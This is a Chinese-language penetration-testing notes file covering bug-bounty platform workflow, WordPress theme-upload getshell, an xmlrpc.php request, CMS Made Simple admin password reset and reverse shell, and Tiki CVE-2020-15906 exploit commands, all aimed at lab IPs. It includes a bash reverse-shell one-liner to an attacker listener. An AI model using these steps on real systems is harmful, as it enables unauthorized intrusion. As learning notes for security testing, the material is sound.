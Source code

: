 渗透测试经验分享
========================================

漏洞平台思路
----------------------------------------
- 注册账号
	| 补天、漏洞盒子等。
- 挖掘公益SRC
	| 公益SRC是白帽子随机发现的漏洞提交漏洞盒子平台，平台对漏洞审核后通知企业认领。厂商注册公益SRC成功后即可认领漏洞，公益SRC服务不收取企业任何费用。
- 步骤
	- 网站语言、操作系统、数据库版本
	- 网站有没有用CMS
	- 可能存在的漏洞
	- 确定登录页面

wordpress
----------------------------------------
- 扫描插件和主题是否包含漏洞
- 拿到wp网站登录用户名和密码
	- 可通过上传主题文件来getshell，首先先去官网下载一个主题压缩包，之后将反弹shell的php代码写入shell.php中，然后将其放入压缩包一起上传
	- shell目录：/wp-content/themes/[主题名]/[shell文件名]
	- 通过主题编辑修改php页面
- xmlrpc.php
	- 查看支持的方案
	
	::
	
		POST /xmlrpc.php HTTP/1.1
		Host: 192.168.100.106
		User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
		Content-Type: text/xml;charset=UTF-8
		Content-Length: 128

		<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

CMS Made Simple
-----------------------------------------
- 数据库更改密码方法
	+ 前提：登录数据库
	+ ``update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name='sitemask'),''),'admin'))) where username = 'admin';``
- 反弹shell
	+ 前提：登录系统
	+ Extensions/User Defined Tags
		::
			
			vps开启监听
			修改任何一个tag的code，点击apply，点击run
			echo system("bash -c 'bash -i >& /dev/tcp/192.168.100.108/4444 0>&1'");
			
tiki
----------------------------------------
- CVE-2020-15906
	+ 利用条件：tiki<21.2
	+ 免密码登录
		::
		
			https://www.exploit-db.com/exploits/48927
			python 48927.py 192.168.100.103
			打开burpsuite，开启拦截
			浏览器登录admin，输入密码
			bp去掉密码，forward
			
	+ 命令执行
		::
		
			https://srcincite.io/pocs/cve-2021-26119.py.txt
			python cve-2021-26119.py 192.168.100.103 /tiki/ whoami
			

通用型漏洞挖掘
-----------------------------------------
- 发现通用型漏洞
	- 自己发掘站点通用型漏洞
	- 根据cvnd等公布的漏洞进行环境搭建和浮现
- 编写POC
- 挖掘漏洞站点
	- 漏洞站点包含的链接，url特征
	- fofa等站点搜索相似站点